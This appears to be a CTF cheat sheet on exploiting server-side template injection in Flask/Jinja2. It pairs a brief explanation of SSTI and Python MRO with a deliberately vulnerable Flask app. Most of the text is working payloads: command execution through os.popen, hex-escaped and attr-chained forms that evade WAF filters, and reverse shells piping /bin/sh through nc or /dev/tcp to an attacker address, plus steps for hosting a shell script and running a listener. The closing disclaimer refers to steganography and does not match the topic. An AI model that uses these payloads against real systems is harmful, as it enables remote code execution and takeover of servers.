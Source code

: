```yaml
---
title: FLASK JINJA PENTESTING
date: 2023-07-12 09:12:40 +/-TTTT
categories: [learning, web]
tags: [ctf]     # TAG names should always be lowercase
---
```


Flask is a micro web framework written in Python.

# Common Directories

```
/app.py
/main.py
/modules.py
/modules/__init__.py
/modules/admin.py
```

# Server-Side Template Injection (SSTI)

A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort. Templates can be used when only minor details of a page need to change from circumstance to circumstance. For example, depending on the IP that accesses a site, the site may look like :

```py
<h1>Welcome to the page!</h1>
<u>This page is being accessed from the remote address: {{ip}}</u>
```

Instead of creating a whole new page per person that accesses the site, it will simply render the remote address into the ``{{ip}}`` variable, while reusing the rest of the HTML for each person request the server receives to that endpoint.

This can be abused, since some template engines support some fairly complex functionality, that eventually allow for developers to run commands or file contents straight from the template.

So when the power to create and render templates is given to a user, it can lead to full access to the system, as the user running the webserver.

# What is ‘MRO’?

MRO (Resolution Order method) is the order in which Python is looking for methods in class hierarchy. When an object of calling method, python will look for the compliance method in the sequence determined by MRO. This MRO sequence determines the order of inheritance of the class to be sought by Python.

Example : 

```py
class A:
    def process(self):
        print('A process()')

class B:
    def process(self):
        print('B process()')

class C(A, B):
    def process(self):
        print('C process()')

class D(C, B):
    pass

obj = D()
obj.process()

print(D.mro())
```

In this example, when `object D` calls the process method (), Python will look for the method in the MRO sequence. The output of the `print (D.Mro ())` will provide a MRO sequence for class D :

```py
[<class '__main__.D'>, <class '__main__.C'>, <class '__main__.A'>, <class '__main__.B'>, <class 'object'>]
```

This MRO sequence shows that the process `method ()` will be sought first in class `D`, then in class `C`, followed by `A, B`, and Object (basic class for all classes in Python).

By using MRO, we can understand the sequence of class inheritance and `identify which classes will be used in certain situations`. This is useful especially when using multiple inheritance or in the context of the construction of SSTI content with `Jinja2`.

```py
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    if request.args.get('c'):
        return render_template_string(request.args.get('c'))
    else:
        return "Hi!!!"

if __name__ == "__main__":
    app.run(debug=True)
```

# Installation

* sudo apt-get install python-pip
* pip install flask --user
* python app.py


Sometimes, website may filter specific characters.
If so, URL encode the payload or convert to HEX.
In addition, it’s recommended to send requests using Burp Suite because web browsers automatically update the payload.

`Payload`
```py
{{ 4*2 }}
{{ config.items() }}
# Remove curly brackets
{2*3}
2*3
```

If success, you may be able to exploit with `OS command injection`.

```py
{{ __import__('os').system('ping -c 1 10.0.0.1') }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}

{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')() }}

{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}

{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
```

# RCE bypassing 

```py
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

#  waf blocks “.”:
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}

# waf blocks “.” and “_”:
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}

# Bypassing the blocks on “.”, “_”, “[]” and “|join”
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

# Reverse Shell
{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc 10.0.0.1 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}

{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f')|attr('read')() }}

# Filter bypass - Base64 encode
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNy80NDQ0IDA+JjEi" | base64 -d | bash').read() }}
```

Alternatively, we can create a shell script to reverse shell, then execute it in the server side.
For example, create a shell script named `revshell` in local machine.

```py
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
```

Then host it and start a listener for receiving an incoming request.

```py
# Local terminal 1
python3 -m http.server 8000

# Local terminal 2
nc -lvnp 4444
```

# DISCLAIMER
```
This cheatsheet is intended to guide CTF players in their research. This cheatsheet is not representative of modern steganography/seganalysis techniques, and its content does match with the creation of an interesting challenges 😉.
```